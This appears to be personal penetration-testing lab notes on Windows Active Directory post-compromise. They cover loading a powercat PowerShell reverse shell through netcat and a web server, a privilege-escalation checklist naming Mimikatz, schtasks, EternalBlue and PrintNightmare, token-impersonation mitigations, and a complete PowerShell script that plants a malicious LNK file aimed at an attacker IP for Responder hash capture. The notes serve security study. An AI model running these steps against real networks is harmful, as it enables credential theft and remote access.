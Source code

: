 1. host another SimpleHTTPServer instance with the custom PS reverse shell script on attacking machine.
2. from the original netcat instance, grab the script <https://github.com/rexpository/powercat-v2.0> and load a secondary netcat instance.
3. launch the new custom script, type 'powershell' to gain powershell access.
4. from here, we now have powershell access to further our post compromise. With the local account fcastle, attempt to create a new account with administrative rights.
5. if this fails, attempt to check what groups / or rights fcastle has from previous initial attack compromises.
6. if we get completely stuck (we could potentially use administrator with Password1 but this does not solve the escalation part from fcastle).
   
**Steps to take for post compromise, privilige escalation attacks:**

        * Enumerate the Current Privileges: Check the groups the current user belongs to and any misconfigured permissions.
        * Abuse Token Impersonation: Use Mimikatz or similar tools to impersonate higher-privileged users like SYSTEM.
        * Exploit Misconfigurations: Look for unquoted service paths, weak permissions, or vulnerable services.
        * Create a Malicious Scheduled Task: Use schtasks to run a task with elevated privileges.
        * Use PowerShell to Interact with the System: Leverage WMI, scheduled tasks, or other local escalation techniques via PowerShell.
        * Abuse External Vulnerabilities: Check for EternalBlue, PrintNightmare, or similar exploits.

---

## 🔵 Token Impersonation Mitigation  
1. Limit the creation of user / group token creation permiessions.
2. Restrict usage of local administrators.
3. Use LAPS - Local Administrative Password Solutions so that it randommizes Local Admin passwords everytime it is used.
4. Separation of sensitive accounts from non sensitive ones. Accounts used for day to day functions should be ahered to, and only use an admin account when usage is required.

---

## 🚩 LNK File Attacks (Windows Hash Capture)  
In this scenario, we have the ability to setup a watering hole attack. By generating a malicious lnk using powershel. We could place a lnk file inside file shares of a network. And have responder listening within the same network to recieve the commands set in the lnk.  

This can be used in the event when we are having trouble gaining further access or elevating priviliges. However we need to have access to a network file share. If the lnk can be succesfully placed in this shared location, anyone that access it (Automatic refresh) could potentially execute the lnk with the commnands sent back to the attacking machine.  

1. Run Admin Powershell command to create lnk for hash captures:
2. Run Responder for HASH CAPTURE not RELAY (WPAD OFF)
     
        $objShell = New-Object -ComObject WScript.shell // objshell variable set tp wscript.shll
        $lnk = $objShell.CreateShortcut("C:\test.lnk") // shortcut for objshell is placed in C:\ or any share drive as test.lnk
        $lnk.TargetPath = "\\192.168.138.149\@test.png" // when opened or refreshed it will reach out to the attacker machine
        $lnk.WindowStyle = 1
        $lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
        $lnk.Description = "Test"
        $lnk.HotKey = "Ctrl+Alt+T"
        $lnk.Save()
